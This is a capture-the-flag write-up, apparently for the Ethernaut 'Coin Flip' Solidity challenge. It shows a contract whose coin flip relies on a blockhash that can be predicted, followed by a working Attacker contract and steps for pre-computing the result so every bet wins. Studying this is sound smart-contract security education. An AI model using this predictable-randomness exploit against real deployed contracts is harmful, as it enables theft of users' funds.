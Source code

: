 # Coin Flip

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## Goal

Win every bet by predicting the guess

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

We need more than 10 consecutive wins to pass this challenge, this value is stored inside the consecutiveWins variable, which is initialized to 0 in the contructor. 

One think to keep in mind is that the transactions in the blockchain are atomic, so either everything passes and the state is changed, or if the transaction failes everything is reverterd to the previous state, meaning if the transaction reverts every storage variable will kepp it's previos state (value).

Another thing to keep in mind is that everything in the smart contracts is publicly visible, including the local variables and state variables marked as private.

To place our guess we need to call the flip() function with a boolean parameter, which means this function only accepts true or false as parameters.

Inside the Attacker contract we can pre-calculate the side parameter and call the flip(bool _guess) function from the CoinFlip contract within the Attacker contract, only if our guess is correct.

The steps to reproduce the exploit would be:

1. create Attacker contract, and create instance from the CoinFlip contract inside the Attacker contract
2. create placeGuess(bool _guess) external function inside the Attacker contract, inside this function we will pre-calculate the side parameter (which can be true or false)
3. call the placeGuess function inside the Attacker contract with a value for the _guess parameter (true/false)
4. if our _guess is equals to the pre-calculated side parameter, we call the flip() function from the CoinFlip contract, if our _guess does not match the side parameter we revert the transaction

## Attacker contract code

```
contract Attacker {

  address private coinFlipContractAddress;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _cf) {
    coinFlipContractAddress = _cf;
  }

  function placeGuess(bool _guess) external {
      uint256 blockValue = uint256(blockhash(block.number - 1));

      uint256 coinFlipp = blockValue / FACTOR;
      bool side = coinFlipp == 1 ? true : false;

      if (side == _guess) {
        // calling the flip function from CoinFlip contract
        (bool success, ) = coinFlipContractAddress.call(abi.encodeWithSignature("flip(bool)", _guess));
        require(success, "Transaction failed");
      } else revert();
  }
}
```